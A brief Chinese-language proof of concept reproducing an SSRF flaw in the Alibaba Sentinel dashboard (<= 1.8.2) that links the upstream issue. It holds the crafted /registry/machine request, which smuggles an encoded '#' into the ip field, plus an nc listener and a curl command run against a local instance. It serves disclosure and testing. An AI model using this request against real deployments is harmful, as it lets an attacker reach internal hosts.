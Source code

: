 ### SSRF
影响范围：
Sentinel <= 1.8.2
```
/registry/machine?app=SSRF-TEST&appType=0&version=0&hostname=TEST&ip=localhost:12345%23&port=0
```

> 到github拉取开源代码https://github.com/alibaba/Sentinel

> 运行Sentinel/sentinel-dashboard/src/main/java/com/alibaba/csp/sentinel/dashboard/DashboardApplication.java即可启动sentinel-dashboard后台

> 本地监听12345端口，nc -lvvp 12345

> 发起对本地localhost端口为12345的SSRF GET攻击，curl -XGET 'http://127.0.0.1:8080/registry/machine?app=SSRF-TEST&appType=0&version=0&hostname=TEST&ip=localhost:12345%23&port=0'


在1.8.0版本下：
![image](https://user-images.githubusercontent.com/30398606/175850297-f3b5e2fc-03b7-4c31-ae5e-e693f2ca66ca.png)



在1.8.4版本下：
![image](https://user-images.githubusercontent.com/30398606/175849756-db15a6ec-14dd-478d-91c4-4b5e9e8452e6.png)

![image](https://user-images.githubusercontent.com/30398606/175849703-850b3562-c13f-4a65-b762-e5fbd5da4d45.png)


Ref:
- https://github.com/alibaba/Sentinel/issues/2451
